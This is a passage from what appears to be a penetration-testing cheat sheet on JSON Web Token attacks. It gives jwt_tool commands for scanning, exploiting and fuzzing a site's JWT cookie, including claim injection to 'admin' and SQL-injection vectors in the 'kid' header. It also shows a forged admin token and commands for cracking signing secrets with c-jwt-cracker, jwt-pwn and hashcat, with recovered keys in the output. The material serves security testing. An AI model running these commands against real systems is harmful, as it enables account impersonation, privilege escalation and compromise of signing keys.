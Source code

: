 ```powershell
Your new forged token:
[+] URL safe: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.xbUXlOQClkhXEreWmB3da_xtBsT0Kjw7truyhDwF5Ic
[+] Standard: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.xbUXlOQClkhXEreWmB3da/xtBsT0Kjw7truyhDwF5Ic
```

* Recon: `python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.aqNCvShlNT9jBFTPBpHDbt2gBB1MyHiisSDdp8SQvgw`
* Scanning: `python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -M pb`
* Exploitation: `python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -X i -I -pc name -pv admin`
* Fuzzing: `python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -I -hc kid -hv custom_sqli_vectors.txt`
* Review: `python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -X i -I -pc name -pv admin`


#### JWT cracker

```ps1
git clone https://github.com/brendan-rius/c-jwt-cracker
./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE
Secret is "Sn1f"
```

#### jwt-pwn

```ps1
git clone https://github.com/mazen160/jwt-pwn
python3 jwt-cracker.py -jwt "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J1YqLEv9ypAApz27nfYP5L4" -t 10 -w jwt.secrets.list
[#] KEY FOUND: 1234
```


#### Hashcat

> Support added to crack JWT (JSON Web Token) with hashcat at 365MH/s on a single GTX1080 - [src](https://twitter.com/hashcat/status/955154646494040065)

```ps1
/hashcat -m 16500 hash.txt -a 3 -w 3 ?a?a?a?a?a?a
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMj...Fh7HgQ:secret
```



## JWT Kid Claim Misuse

